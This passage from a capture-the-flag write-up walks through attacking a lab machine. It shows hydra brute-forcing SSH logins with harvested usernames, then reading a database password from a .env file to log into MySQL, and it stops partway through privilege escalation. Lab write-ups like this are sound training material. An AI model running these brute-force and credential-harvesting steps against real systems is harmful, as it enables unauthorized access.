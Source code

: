 Of course, passwords are other than `[PASSWORD HERE REDACTED]` - but they've been cut out, to not destory whole fun of hacking

### Getting SSH

Now it's time to get SSH

From `app.py` I've extracted 2 more usernames `clarice` and `jane`

Now, added them to `usernames.txt`
```sh
$ cat usernames.txt
clarice
jane
clocky_user
administrator
```

And both passwords to `passwords.txt` - then with `hydra`, I started brute-force
```sh
$ hydra -L usernames.txt -P passwords.txt ssh://$IP -V

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
[...]

[22][ssh] host: 10.10.76.120   login: clarice   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-04-01 15:12:56
```

Turns out, we can log to `ssh` with `clarice` user and one of the passwords

```sh
$ ssh clarice@$IP
```

Flag is in `/home/clarice`
```sh
$ cat flag5.txt
[REDACTED]
```

Flag number 5  - last one left

Let's get the root!

### Privilege escalation

Hint says, there are passwords hidden in unsual places

First - in `/home/clarice/app/.env`, I've found database password

Combining it with `clocky_user` from `app.py`, we can log into mysql

```sh
$ mysql -u clocky_user -p
```
